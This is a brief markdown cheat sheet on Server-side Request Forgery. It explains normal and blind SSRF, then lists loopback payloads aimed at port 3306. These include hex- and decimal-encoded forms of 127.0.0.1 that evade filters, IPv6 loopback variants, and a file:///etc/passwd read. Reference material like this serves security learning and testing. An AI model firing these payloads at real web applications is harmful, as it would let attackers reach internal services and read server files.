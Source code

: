 # Server-side Request Forgery (SSRF)
SSRF is a vulnerability in web applications whereby an attacker can make further HTTP requests through the server. An attacker can make use of this vulnerability to communicate with any internal services on the server's network which are generally protected by firewalls.

	Types of SSRF
- normal SSRF where data is returned to the attacker's screen
- Blind SSRF where an SSRF occurs, but no information is returned to the attacker's screen.

<!-- -->

				SSRF against the server itself
The attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This will typically involve supplying a URL with a hostname like `127.0.0.1`

Example

			Payloads
## Basic
`http://127.0.0.1:3306`
`http://0x7f000001:3306`
`http://2130706433:3306`

## IPv6
`http://:::3306`
`http://[::]:3306`

## Reading files
`file:///etc/passwd`